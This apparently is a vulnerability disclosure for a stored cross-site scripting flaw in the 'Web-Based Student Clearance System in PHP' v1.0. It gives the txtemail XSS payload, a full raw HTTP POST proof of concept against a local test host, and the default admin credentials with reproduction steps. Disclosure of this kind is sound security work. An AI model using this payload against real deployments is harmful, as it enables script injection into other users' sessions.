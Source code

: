 ## Vulnerability Description

[Web-Based Student Clearance System in PHP Free Source Code v1.0](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html) was discovered to contain a cross-site scripting (XSS) vulnerability via the componentedit-admin.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/). This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the txtemail parameter.

1. BUG_Author: Tr0e
  
2. vendors: [Web-Based Student Clearance System in PHP Free Source Code](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html);
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /student_clearance_system_Aurthur_Javis/admin/edit-admin.php
  

# Vulnerability Verification

[+] Payload:

```java
"><script>alert(1)</script>
```

POC：

```js
POST http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4 HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 486
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZuvZCgQkb37Jezph
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/edit-admin.php?id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=e8pdd3dv0b39d1h4vcj99q01cq
Connection: close

------WebKitFormBoundaryZuvZCgQkb37Jezph
Content-Disposition: form-data; name="txtfullname"

EKE, EMMANUEL EFA-EVAL
------WebKitFormBoundaryZuvZCgQkb37Jezph
Content-Disposition: form-data; name="txtemail"

"><script>alert(1)</script>
------WebKitFormBoundaryZuvZCgQkb37Jezph
Content-Disposition: form-data; name="cmddesignation"

Admin
------WebKitFormBoundaryZuvZCgQkb37Jezph
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryZuvZCgQkb37Jezph--
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author (Log in with the default account and password:admin/admin123) and execute the Payload provided above.

The vulnerability lies in the "User Manager - User Record - Action - Edit" function, you shuold inserts Payload when editing administrator user information，as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194344519-66e70a0a-fbb2-4567-b77f-240657e24f7b.png)
![image](https://user-images.githubusercontent.com/42080954/194344726-cd269fc9-3bf7-4c30-a10c-addd5bff43c0.png)
